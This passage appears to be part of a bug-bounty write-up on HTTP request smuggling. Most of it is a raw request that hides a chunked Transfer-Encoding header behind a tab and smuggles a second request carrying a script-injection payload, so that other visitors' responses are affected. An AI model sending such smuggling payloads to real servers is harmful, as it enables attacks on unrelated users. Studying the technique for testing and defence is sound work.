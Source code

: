 ```HTTP
Host: saas-app.com
Cokie: ...
```

![[Pasted image 20240805200425.png]]
Which successfully could escalated to a bug more critical by smuggling another request that trigger the last request
```HTTP
POST /1/cards HTTP/1.1
Host: trello.com
Transfer-Encoding:[tab]chunked
Content-Length: 4

10
=x&csrf=token&x=
66
POST /index.php HTTP/1.1
Host: saas-app.com
COntent-Length: 100

SAML=a><script>alert(1)</script>
0POST / HTTP/1.1
Host: saas-app.com
Cookie:
```
so any random client who access the web would be affected, so it's a critical level

sometimes getting a 421 error is because one of the headers is unexpected
